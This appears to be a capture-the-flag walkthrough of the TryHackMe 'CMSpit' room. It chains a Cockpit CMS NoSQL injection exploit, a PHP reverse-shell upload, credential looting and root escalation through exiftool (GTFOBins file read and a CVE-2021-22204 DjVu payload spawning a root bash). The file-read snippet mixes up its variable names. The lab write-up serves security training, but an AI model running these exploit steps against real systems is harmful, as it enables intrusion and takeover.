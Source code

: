 Room: [CMSpit](https://tryhackme.com/room/cmspit)

Difficulty: Medium

Overview: In this room we are going to exploit a NoSQL injection vulnerability on CMS concrete5 webserver, privesc horizontaly and then verticaly taking advantage of a fresh exploit for a tool called Exiftool.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Let's start our enumeration fase with "nmap" and search for all open ports on the target system:

```
nmap -sV -sC -p- cmspit.thm -oN nmap.txt

-sV    →  Probe open ports to determine service
-sC    →  Scan using the default set of scripts
-p-    →  Scan all ports
-oN    →  Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/130663300-0daf3ea7-10d5-4683-a33b-c5c7f9926436.png)

There are only two open ports:

22  →  OpenSSH 7.2p2

80  →  Apache httpd 2.4.18

After visiting the webpage i was redirected to a login portal:

![image](https://user-images.githubusercontent.com/76821053/130663322-4f143cb8-3435-45e4-88ba-50a7688e3115.png)

To better analyze the webserver we can use “nikto” which performs comprehensive scan tests against web servers:

```
nikto -h http://cmspit.thm
```

![image](https://user-images.githubusercontent.com/76821053/130663353-a2ccd257-07b3-4d01-8ecb-0dc3e8006878.png)

We found a file that contains usefull information:

![image](https://user-images.githubusercontent.com/76821053/130663377-8f4148cd-2a5b-4c3f-bd21-643e16fe622a.png)

Now that we have information about the content management system, its name and version. We can search [exploit-db](https://www.exploit-db.com/) for a possible exploit:

![image](https://user-images.githubusercontent.com/76821053/130663403-9d54e3c6-a765-4daf-a9b4-08c50504ec5f.png)

There is a exploit with a CVE number of CVE-2020-35846. This exploit takes advantage of NoSQL injection in /auth/check path which will let us do some username enumeration and password reset. You can find more information about this exploit at [PT SWARM webpage](https://swarm.ptsecurity.com/rce-cockpit-cms/). They have a brake down of this exploit in detail. 

So to automate this process we are going to use the exploit script that we found at exploit-db, this exploit is a combination of CVE-2020-35847 and CVE-2020-35848:

```
python3 cockpit_exploit.py -u http://cmspit.thm
```

![image](https://user-images.githubusercontent.com/76821053/130663470-7bb60910-680e-4aec-9bd0-68d46564bd08.png)

This exploits found all the users in the database. If we want to find the email address of "skidy" we can just rerun the exploit and choose a diferent username:

![image](https://user-images.githubusercontent.com/76821053/130663496-d0b3c798-24e7-4640-abf4-d8b03f6727a4.png)

Now we can login to the webserver with the newly created “admin” credentials:

![image](https://user-images.githubusercontent.com/76821053/130663516-5053baa8-cd6f-4d15-806a-2512f7f42c54.png)

After browsing the admin dashboard there is an option to upload files to the webserver, so we are going to upload a php payload to get a reverse shell connection.

The php payload that i like to use is from “pentestmonkey”, you can download it from his [github page](https://github.com/pentestmonkey/php-reverse-shell).

Change this two parameters, ip and port to match your own:

![image](https://user-images.githubusercontent.com/76821053/130663540-5c05d719-94e6-439a-b53f-206f262673c0.png)

To upload the shell. From the dashboard choose “Finder”:

![image](https://user-images.githubusercontent.com/76821053/130663563-b91138cc-6ab9-4009-9767-cbc01e77e4c8.png)

And upload the payload to, for example "install" directory:

![image](https://user-images.githubusercontent.com/76821053/130663586-83207272-723b-47fb-a639-d2d48cf71e96.png)

To trigger the payload we just need to go to the correct url path:

```
http://ip_of_room/install/php-reverse-shell.php
```

![image](https://user-images.githubusercontent.com/76821053/130663629-5503c09d-f36f-4308-b871-2495679f7ce4.png)

And in our listener we receiver a shell:

![image](https://user-images.githubusercontent.com/76821053/130663675-ad2eea14-f9e1-47cd-8488-6e7bfaaccc6f.png)

To upgrade our shell to a tty one we can use this python command:

```
python3 -c "__import__('pty').spawn('/bin/bash')"
```

![image](https://user-images.githubusercontent.com/76821053/130663702-5dc9d078-ab92-4e14-8bd3-eb5f7131727e.png)

We can find the web flag at "/var/www/html/cockpit". Everytime we need to find a web related flag we should always start at the home of html path server:

![image](https://user-images.githubusercontent.com/76821053/130663729-dd85466a-fdd9-49f2-9132-45cbeb648058.png)

Enumerating the machine further we can escalate our privileges by checking user “stux” home directory:

![image](https://user-images.githubusercontent.com/76821053/130663754-dc274087-e2ce-4029-93c7-ffbd6ed376fc.png)

Inside his directory there is a database file called ".dbshell":

![image](https://user-images.githubusercontent.com/76821053/130663779-eb933f36-b75d-4d7b-bc93-6905a3e16ba9.png)

We have credentials for “stux” so let's login into that user:

```
su stux
```

![image](https://user-images.githubusercontent.com/76821053/130663805-9ec8f3dc-3051-4d67-ab83-c5983d2d3764.png)

With “stux” we can read the user flag:

![image](https://user-images.githubusercontent.com/76821053/130663832-2c8b4b5a-ace7-44f2-8235-22655cddf6dc.png)

Now that we are user “stux” let's check his sudo permitions:

```
sudo -l
```

![image](https://user-images.githubusercontent.com/76821053/130663855-4e1a96a9-728a-4e07-9502-3f325f75aee3.png)

“stux” can ran sudo on "exiftool" has user “root”. So let's head to [GTFOBins](https://gtfobins.github.io/gtfobins/exiftool/) and to see if there is any way we can exploit exiftool:

![image](https://user-images.githubusercontent.com/76821053/130663871-e38f081a-bb67-45b9-966e-72e01700391d.png)

Having sudo permissions to run exiftool we can easily read the root.txt flag if we follow GTFOBins read method:

```
LFILE=/root/root.txt
OUPUT=/home/stux/privesc
sudo exiftool -filename=$OUTPUT $FILE
cat $OUTPUT
```

![image](https://user-images.githubusercontent.com/76821053/130663893-48a725d2-e7b5-4477-9f3e-16078500ae52.png)

Now, if we want to escalate our privileges to “root” user we need to take advantage of a exiftool vulnerability.

This vulnerability has a CVE number of CVE-2021-22204:

![image](https://user-images.githubusercontent.com/76821053/130663938-2eca61ed-b152-4ccf-91da-e6ec19299961.png)

There is an awesome report on this bug in detail by [Convisoappsec](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/).

There you will learn how to exploit the system by taking advantage of a tool called “djvumake”:

![image](https://user-images.githubusercontent.com/76821053/130663950-83e3b5d6-f2ce-4c87-b56e-7792eeb7ebf0.png)

Let's follow the steps and reproduce this vulnerability:

First we need to create a payload and save it to a file:

```
(metadata “\c${system('/bin/bash -p')};”)
``` 

![image](https://user-images.githubusercontent.com/76821053/130663968-94c0b308-a329-407c-8464-645d172a41be.png)

Next we need to compress the payload, create a .djvu file and trigger the exploit with exiftool:

```
bzz payload payload.bzz

djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

sudo exiftool exploit.djvu
```

![image](https://user-images.githubusercontent.com/76821053/130664000-ce9897db-e146-42f2-91f1-ecbd612c1ea6.png)

Success, we are now “root”!!!

We can access “root's” directory directly and read the root.txt file:

![image](https://user-images.githubusercontent.com/76821053/130664023-d82d961c-e580-4015-a5b0-a5df97ce2c63.png)
















